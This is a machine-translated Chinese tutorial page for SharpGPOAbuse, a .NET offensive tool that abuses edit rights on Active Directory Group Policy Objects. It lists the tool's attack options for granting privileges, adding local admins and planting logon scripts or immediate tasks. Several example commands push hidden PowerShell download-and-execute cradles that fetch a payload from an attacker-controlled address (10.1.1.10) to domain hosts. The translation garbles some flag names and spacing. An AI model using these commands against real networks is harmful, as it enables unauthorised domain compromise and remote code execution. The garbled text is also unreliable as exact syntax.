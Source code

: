 # SharpGPOAbuse:利用用户对组策略对象(GPO)的编辑权限的工具

> 原文：<https://kalilinuxtutorials.com/sharpgpoabuse/>

[![SharpGPOAbuse : Tool To Take Advantage Of A User’s Edit Rights On A Group Policy Object (GPO)](img//c1f00f6974f6ba1aa6d4196ca766b6a7.png "SharpGPOAbuse : Tool To Take Advantage Of A User’s Edit Rights On A Group Policy Object (GPO)")](https://1.bp.blogspot.com/-atr0fF1EIwc/YG94aERnLUI/AAAAAAAAIsE/cjPLzFz35H4ijKBLEbgwoBU0IV0DtrAMwCLcBGAsYHQ/s728/SharpGPOAbuse%25281%2529.png)

**shargpoabuse**是一个用 C#编写的. NET 应用程序，可以用来利用用户对组策略对象(GPO)的编辑权限来危害由该 GPO 控制的对象。

更多细节可以在下面的博客中找到:[https://labs.mwrinfosecurity.com/tools/sharpgpoabuse](https://labs.mwrinfosecurity.com/tools/sharpgpoabuse)

**编译指令**

确保正确安装了必要的 NuGet 包，并在 Visual Studio 中简单地构建项目。

**用途**

**用法:SharpGPOAbuse.exe<攻击类型> <攻击选项>**

**攻击类型**

目前 SharpGPOAbuse 支持以下选项:

| [计]选项 | 描述 |
| --- | --- |
| [–AddUserRights](https://github.com/FSecureLABS/SharpGPOAbuse#adding-user-rights) | 向用户添加权限 |
| [–addlocalaadmin](https://github.com/FSecureLABS/SharpGPOAbuse#adding-a-local-admin) | 将用户添加到本地管理员组 |
| [–addcomputerscript](https://github.com/FSecureLABS/SharpGPOAbuse#configuring-a-user-or-computer-logon-script) | 添加新的计算机启动脚本 |
| [–AddUserScript](https://github.com/FSecureLABS/SharpGPOAbuse#configuring-a-user-or-computer-logon-script) | 配置用户登录脚本 |
| [–添加计算机任务](https://github.com/FSecureLABS/SharpGPOAbuse#configuring-a-computer-or-user-immediate-task) | 配置计算机即时任务 |
| [–AddUserTask](https://github.com/FSecureLABS/SharpGPOAbuse#configuring-a-computer-or-user-immediate-task) | 向用户添加即时任务 |

**攻击选项**

*   **添加用户权限**

**添加新用户权限所需的选项:
–user rights
设置要添加给用户的新权限。此选项区分大小写，必须使用逗号分隔的列表。
–user account
设置添加新权限的账户。
–GPO name
易受攻击的 GPO 的名称。

例如:
SharpGPOAbuse.exe–adduser rights–user rights " SeTakeOwnershipPrivilege，SeRemoteInteractiveLogonRight "-user account bob . Smith–GPOName " Vulnerable GPO "**

*   **添加本地管理员**

**添加新的本地管理员所需的选项:
–user account
设置要添加到本地管理员中的帐户名称。
–GPOName
易受攻击的 GPO 的名称。

示例:
SharpGPOAbuse.exe–addlocalaadmin–user account bob . Smith–GPOName“易受攻击的 GPO”**

*   **配置用户或计算机登录脚本**

添加新用户或计算机启动脚本所需的选项:
–script name
设置新启动脚本的名称。
–script contents
设置新启动脚本的内容。
–GPOName
易受攻击的 GPO 的名称。

示例:
SharpGPOAbuse.exe–AddUserScript–script name startup script . bat–script contents " powershell . exe-nop-w hidden-c \ " IEX((new-object net . webclient)。download string(' http://10 . 1 . 1 . 10:80/a ')\ " "–GPO name "易受攻击的 GPO "

如果希望仅在受易受攻击的 GPO 控制的特定用户或计算机上运行恶意脚本，可以在恶意脚本中添加 If 语句:

SharpGPOAbuse.exe–AddUserScript–script name startup script . bat–script contents " if % username % = = powershell.exe-nop-w hidden-c \ " IEX((new-object net . webclient)。download string(' http://10 . 1 . 1 . 10:80/a ')\ " "–GPO name "易受攻击的 GPO "

*   **配置计算机或用户即时任务**

**选项需要添加一个新的计算机或用户即时任务:**

–TaskName
设置新计算机任务的名称。
–作者
设置新任务的作者(使用阿达账号)。
–命令
要执行的命令。
–参数
传递给命令的参数。
–GPO name
易受攻击的 GPO 的名称。

**附加用户任务选项:**

–filter enabled
为用户即时任务启用目标过滤。
–目标用户名
目标用户。恶意任务将只在指定用户上运行。应该是目标用户的 SID 格式\
–TargetUserSID
。

**附加计算机任务选项:**
–filter enabled
为计算机即时任务启用目标过滤。
–TargetDnsName
目标计算机的 DNS 名称。恶意任务将只在指定的主机上运行。

**举例:**
SharpGPOAbuse.exe–AddComputerTask–TaskName“更新”-作者域\管理员–命令“cmd . exe”-参数“/c powershell.exe-nop-w hidden-c \ " IEX((new-object net . webclient)。download string(' http://10 . 1 . 1 . 10:80/a ')\ " "–GPO name "易受攻击的 GPO "

如果您希望仅在受易受攻击的 GPO 控制的特定用户或计算机上运行恶意任务，您可以使用类似于以下内容的内容:

SharpGPOAbuse.exe–AddComputerTask–TaskName " Update "–Author DOMAIN \ Admin–Command " cmd . exe "–Arguments "/c powershell.exe-nop-w hidden-c \ " IEX((new-object net . webclient)。download string(' http://10 . 1 . 1 . 10:80/a ')\ " "–GPO name " Vulnerable GPO "-filter enabled–TargetDnsName target.domain.com

**附加选项**

| [计]选项 | 描述 |
| --- | --- |
| –域控制器 | 设置目标域控制器 |
| –域 | 设置目标域 |
| –力 | 如果需要，覆盖现有文件 |

[**Download**](https://github.com/FSecureLABS/SharpGPOAbuse)